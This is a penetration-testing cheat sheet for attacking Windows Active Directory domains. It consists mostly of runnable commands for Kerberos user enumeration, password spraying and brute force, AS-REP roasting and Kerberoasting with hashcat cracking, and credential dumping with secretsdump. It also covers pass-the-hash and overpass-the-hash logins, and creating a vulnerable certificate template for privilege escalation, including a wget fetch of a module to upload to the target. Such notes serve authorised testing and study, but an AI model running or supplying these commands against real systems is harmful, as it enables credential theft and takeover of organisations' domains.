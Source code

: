 KERBRUTE:
---
#kerbrute #ad #enum #passwordspray #userenum #kerberos 

Sync time to DC, otherwise password spray / enum / brute force may fail!

```shell
sudo rdate -n $DCNAME
```

then

```bash
kerbrute userenum --dc $TARGET_IP -d $TARGET_AD users -t 100 -v
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD -t 100 -v users $PASSWORD 
kerbrute bruteuser --dc $TARGET_IP -d $TARGET_AD -t 100 -v passwords $USER
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD users -t 100 -v --user-as-pass
```

AS-REP Roasting
---
#as-rep-roasting #kerberos

No password ticket query against a user list, not requiring Kerberos pre-authentication,
AKA. 
AS-REP Roasting

```shell
impacket-GetNPUsers -no-pass -usersfile ./users.txt -dc-ip $TARGET_IP $TARGET_DOMAIN/
```

Against single user:

```shell
impacket-GetNPUsers $TARGET_DOMAIN/$TARGET_USER -no-pass
```

Or if you got a shell on machine:

```powershell
Rubeus.exe asreproast /format:hashcat /outfile:C:hashes.txt
```

And then brute force:
#ntlm #bruteforce 

```shell
hashcat -m 18200 hashes wordlist.dict
```

Dump hashes using account credentials:
#dump #creds

```shell
impacket-secretsdump -dc-ip $TARGET_IP $USER:$PASSWORD@$TARGET_DOMAIN
```

Connect to Windows Machine using obtained hash (pass the hash):
#winrm #evil-win-rm #evilwinrm #pth #pass-the-hash

```shell
#remove aad3b435b51404eeaad3b435b51404ee: from hash
evil-winrm -i $TARGET_IP -u $USER -H $TARGET_HASH
```
---

Pre-compiled Windows binaries (Rubeus, Certify …):
---
#ghostpack #rubeus #certify #precompiled

[https://github.com/GhostPack](https://github.com/GhostPack)

---
Kerberoasting:
---
#kerberos #kerberoasting #ad #active-directory #windows 

Check if vulnerable accounts are present:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $TARGET_DOMAIN/$USERNAME
```

Send request to TGS and extract the hash:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $TARGET_DOMAIN/$USERNAME -request
```

Overpass the hash attack
---
(when NTLM protocol is disabled):
---
#overpass-the-hash

```shell
impacket-getTGT.py $TARGET_DOMAIN/$USER -hashes :$HASH
export KRB5CCNAME=$(pwd)/$USER.ccache
python psexec.py $TARGET_DOMAIN/$USER@$MACHINE_NAME.$TARGET_DOMAIN -k -no-pass
```

PKI Admin access
---
#pki #pki-admin #ad-template #vulnerable-template

PKI Admin can be abuse to create a vulnerable cert template which can then be exploited with Certipy (or certify and rubeus):

Download template creator module:

```
wget https://raw.githubusercontent.com/GoateePFE/ADCSTemplate/master/ADCSTemplate.psm1
# upload psm1 file to target
```

Use the module to create a vulnerable template:

```powershell
Import-Module .\ADCSTemplate
Export-ADCSTemplate -DisplayName Administrator > .\admin.json
download admin.json
```

then edit the following JSON properties:
```JSON
"msPKI-Certificate-Name-Flag":  1,
"msPKI-Enrollment-Flag":  0,
```
and make sure to have:
```json
"pKIExtendedKeyUsage":"1.3.6.1.5.5.7.3.2"
```
then
```powershell
New-ADCSTemplate -DisplayName Administrator2 -JSON (Get-Content .\admin.json -Raw) -Publish -Identity "$AD_DOMAIN(1st part no ".")\$USERNAME"
Set-ADCSTemplateACL -DisplayName Administrator2 -Type Allow -Identity '$AD_DOMAIN(1st part no ".")\$USERNAME' -Enroll

```
Scan with certipy 4.4+ for vulnerable templates
notes are in "Certificate Abuse" #Certificate-Abuse
List Active Directory AD Users:
---
#enumerate #ad #users

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASS --users
```

Password spraying with CME

```shell
crackmapexec smb $DOMAIN -u users  -p $PASS --continue-on-success
```


